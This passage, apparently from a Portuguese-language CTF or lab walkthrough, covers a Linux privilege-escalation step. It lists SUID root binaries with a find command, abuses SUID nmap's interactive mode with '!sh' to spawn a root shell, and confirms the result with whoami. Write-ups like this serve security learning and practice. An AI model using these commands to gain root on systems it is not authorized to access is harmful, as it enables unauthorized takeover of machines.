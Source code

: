 - Agora precisamos ter acesso root
- Para isso vamos usar esse comando de privilege escalation
    
    ```bash
    find / -user root -perm -4000 2>/dev/null
    ```
    
    ![Untitled](Untitled%2028.png)
    
    [https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4](https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4)
    
- Aqui eu irei utilizar o `*/nmap`
- O comando seria esse
    
    ```bash
    nmap --interactive
    !sh
    ```
    
    ![Untitled](Untitled%2029.png)
    
- Agora vamos ver quem somos
    
    ```bash
    whoami
    ```
    
    ![Untitled](Untitled%2030.png)
    